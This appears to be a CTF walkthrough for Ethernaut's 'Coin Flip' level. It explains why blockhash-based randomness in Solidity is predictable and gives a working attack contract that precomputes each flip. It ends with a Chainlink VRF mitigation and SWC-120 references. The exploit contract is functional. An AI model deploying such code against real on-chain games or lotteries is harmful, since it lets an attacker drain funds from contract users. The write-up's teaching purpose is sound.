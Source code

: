 ```yaml
---
title: Level 3 - Coin Flip
slug: level-3
published: 05-15-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut3.svg
---
```


## Objectives

1. Guess correctly 10 coin flips in a row.

## Vulnerabilities

### Block data is a bad source of randomness.

Relying on `block.timestamp`, now or `blockhash` is a bad source of randomness that can be exploited.
In here, the way to determine the correct answer of the flip can be used by an attacker to "guess"
the correct result before calling the `flip` function.

## Exploit

1. Write and deploy an attack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

1. Use an oracle link Chainlink for a safer source of randomness

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
